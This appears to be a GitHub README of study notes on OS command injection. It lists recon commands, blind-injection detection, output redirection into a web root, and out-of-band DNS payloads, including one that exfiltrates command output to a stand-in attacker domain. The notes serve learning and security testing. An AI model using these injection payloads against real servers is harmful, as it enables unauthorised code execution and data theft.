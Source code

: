 # RCE

![](https://github.com/DK9510/Img/blob/main/RCE.png)

## what is OS command injection 
* OS command injection is also known as shell injection or RCE
* it is vulnerability that allow an attacker to execute any command on the system and take full control of the server.
* attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.
* the vulnerability may present at any parameter that may directly supply it to the internal shell but we need some proxy to check that it may interact with the hidden parameter or in the API request.

# find and exploit os-command injection vulnerability

## Use full command
|Purpose |Linux|Windows|
|---|---|---|
|name of current user|'whoami'|'whoami'|
|OS| 'uname -a'|'ver'|
|Network configuration|'ifconfig'or'ipaddr|'ipconfig/all'|
|Network Connection|'nestat -an'|'netstat -an'|
|Running Process|'ps -ef'|'tasklist'|

## Blind Command injection vulnerability 
* many instance of os COmmand injection are blind vulnerabilities, means application does not return output from the command with http response.
* Consider a web site that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details. For example: 
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`

## Detecting Blind OS Command Injection using Time Delay.
* for generating time delay the `ping` command is use full because it send number of ICMP packet so to complete this command application takes time and delay generates in the application response time.
* put `|| && ` like terminal command ending or ';' to terminate the command or giving error, analyze more and try to exploit RCE.

## Exploiting Bling RCE BY Redirecting output
* You can redirect the output from the injected command into a file within the web root that you can then retrieve using your browser. For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:
`& whoami > /var/www/static/whoami.txt &`

* You can then use your browser to fetch `https://vulnerable-website.com/whoami.txt` to see the output;
## Exploiting blind OS command injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques)

### Blind-os command injection Out-of-band interaction
* You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
* `& nslookup kgji2ohoyw.web-attacker.com &`
* use burp Collaborator for OAST.

### Blind-os-command injection Out-Of-band data exfiltration.
* ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`` payload here in between \`\`we can add our command and execute lookup.
* response in collaborator  `wwwuser`.id.collaborator.net

## ways of injection OS commands
* \&
* \&\&
* |
* ||

only unix-based os 
* \;
* Newline(0x0a or \\n)

On Unix-based system we use
`` `command` or $(command)``
